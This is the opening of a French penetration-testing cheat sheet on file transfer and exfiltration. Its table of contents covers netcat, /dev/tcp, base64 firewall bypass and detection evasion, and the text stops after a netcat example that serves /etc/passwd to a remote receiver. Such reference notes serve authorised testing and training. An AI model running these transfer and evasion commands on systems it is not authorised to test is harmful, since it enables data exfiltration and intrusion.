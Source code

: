 
- [[#NETCAT / NCAT / NC]]
- [[#DEV/TCP]]
- [[#BASE64 (BYPASS FIREWALL)]]
- [[#BASE64 UPLOADS (POST-REQUEST)]]
- [[#Valider le format et l'intégrité du fichier]]
- [[#GTFOBINS / LOLBAS (BYPASS DETECTION)]]

- [[#DOWNLOADS]]
	- [[#HTTP DOWNLOADS]]
	- [[#SMB DOWNLOADS]]
	- [[#FTP DOWNLOADS]]
	- [[#SSH DOWNLOADS]]

- [[#UPLOADS Exfiltration]]
	- [[#HTTP UPLOADS]]
	- [[#SMB UPLOADS]]
	- [[#FTP UPLOADS]]
	- [[#SSH UPLOAD]]

- [[#DATA TRANSFER WITH CODE]]
	- [[#PYTHON]]
	- [[#PHP]]
	- [[#PERL]]
	- [[#RUBY]]
	- [[#VBSCRIPT]]
	- [[#JAVASCRIPT]]

- [[#WINRM DATA TRANSFER]]
- [[#RDP DATA TRANSFER]]
- [[#PROTECTED FILE TRANSFERS]]

---

# NETCAT / NCAT / NC

## NC

### Classique

Envoyeur (option -q 0 pour fermer la connexion une fois transfert terminé)

```bash
nc -q 0 -lp 8000 < /etc/passwd
```

Receveur

```bash
nc <ip_envoyeur> 8000 > etc.passwd
```

### #Base64
